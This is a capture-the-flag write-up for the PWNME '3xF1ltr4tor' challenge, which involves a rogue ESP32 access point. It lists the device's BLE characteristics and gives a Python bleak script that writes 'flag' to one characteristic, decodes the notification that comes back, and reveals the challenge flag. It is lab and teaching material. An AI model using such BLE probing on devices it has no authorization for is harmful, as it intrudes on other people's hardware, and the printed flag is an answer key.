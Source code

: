 # Write-Up 3xF1ltr4tor 

**CTF**: PWNME
## Description:
```
    A strange access point with a web server is open, named: `PWNME_Free_APx`.
    I suspect it might be a rogue access point because I tried to log in, but I dont get my WiFi !
    It’s up to you to investigate and find out how it exfiltrates your data!
    This 3xF1ltr4tor is build on ESP32
    Search OTA :)
```
- **Difficulty:** easy
- **Author:** Eun0us


## Introduce 
Connect u to an Access Point PWNME_FREE_AP1


![alt text](img/free_ap.png)

<br>So u gain access to an Access Point with a server web on port 80 (http://192.168.4.1:80)</br>

Now u are on an little EvilTwin 

![alt text](img/post.png)

Look i post nothing happend :(

- Web Attack is not the way !
- No MITM, No NMAP  

## Search OTA

a basic esp32 provide WiFi **and** BLE 
So basicly just look on u r ble !
<br>
![alt text](img/BLE_OTA.png)
</br>
there is *PWNED_BLE_1*.

### Characteristic

UUID: 9abc0001-1234-5678-9abc-def012345678 / **READ** char -> ```key=flag```
UUID: 9abc0002-1234-5678-9abc-def012345678 / **WRITE** char -> if(input == key) -> **Notifiy
UUID: 9abc0003-1234-5678-9abc-def012345678 / **NOTIFY** char -> "Maybe return the flag ?"


## Exploit 

Step:
- scan devices 
- Connect to the *exfiltrator* device 
- Subscribe Notify *9abc0003-1234-5678-9abc-def012345678*
- Send 'flag' to *9abc0002-1234-5678-9abc-def012345678*
- Wait for response 

**exploit.py**
```py 
import asyncio
from bleak import BleakClient, BleakScanner
import base64

# BLE UUIDs
SERVICE_UUID = "9abc0000-1234-5678-9abc-def012345678"
CHAR_WRITE_UUID = "9abc0002-1234-5678-9abc-def012345678"
CHAR_NOTIFY_UUID = "9abc0003-1234-5678-9abc-def012345678"

received_flag = ""
exfiltrator = "Pwned_BLE_1" # U can search for any devices

# Notify Call Back Fonction
def notification_handler(sender, data):
    global received_flag
    print(f"[*] Notification : {data}")
    try:
        decoded = base64.b64decode(data).decode()
        print(f"[*] Decoded string : {decoded}")
        received_flag = decoded
    except Exception as e:
        print(f"[!] Erreur de décodage : {e}")

async def main():
    print("[*] Discover device BLE...")
    devices = await BleakScanner.discover(timeout=5.0)

    target = None
    for d in devices:
        if d.name and exfiltrator in d.name: 
            target = d
            break

    if not target:
        print(".")
        return

    print(f"[+] Connected to {target.name} ({target.address})...")
    async with BleakClient(target.address) as client:
        print("[✓] Connected.")

        # Subscribe NOTIFY
        await client.start_notify(CHAR_NOTIFY_UUID, notification_handler)
        print("[*] Abonné à la caractéristique notify.")

        # Send 'flag' to trigger the server
        await client.write_gatt_char(CHAR_WRITE_UUID, b"flag") # bytes("flag")
        print(f"[→] 'flag' send to {target.name}.")

        # Wait max 5 sec for Notification
        await asyncio.sleep(5)

        await client.stop_notify(CHAR_NOTIFY_UUID)

        if received_flag:
            print(f"\n [{received_flag}] \n")
        else:
            print("")

asyncio.run(main())
```

![alt text](img/exploit.png)

GG ! U flag *PWNME{3xF1ltr4t0r_s3rv_Bl3}*